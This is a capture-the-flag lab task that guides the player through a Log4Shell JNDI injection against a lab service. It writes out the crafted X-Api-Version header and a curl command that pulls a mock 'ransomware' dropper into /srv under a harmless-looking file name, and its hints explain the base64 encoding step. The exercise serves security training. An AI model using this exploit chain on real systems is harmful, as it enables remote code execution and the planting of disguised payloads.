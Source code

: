 # Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

In our case, the command will reach out to malicious url and drop a scary payload into the sudosingles-optimizer container.

## DETAILS

The malicious command we want to execute is:

curl PAYLOADDROPPERURL --output /srv/connectioncheck

Where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below.

FSSPayloadDropperUrl is a special url that can be used to drop a ransomware payload. When the above command is executed in the container running sudosingles-optimizer, it will drop a nasty file in the /srv directory, disguised as something benign.

Just like before, we’ll make a request to our malicious LDAP server using curl on the attack machine. Open another Terminal Emulator window and run the following command:

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

Where PAYLOAD is the malicious command that we crafted above and YOURIP is the attack machine’s private IP.

However, you’ll notice that if you just try to substitute the malicious command for PAYLOAD, then run the whole request to sudosingles-optimizer above, the exploit won’t work. Something is missing...

Maybe you need to encode PAYLOAD somehow? Hm...

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is involved in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

payloadChecker

## HINTS

### HINT 1

/Basic/Command/Base64 might be a hint! And the challenge said to "encode"... hmm.....

### HINT 2

You need to encode the malicious command as base64, and add it to the ldap url. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly.

### HINT 3

1. Craft the malicious command: curl PAYLOADDROPPERURL --output /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'
4. Execute
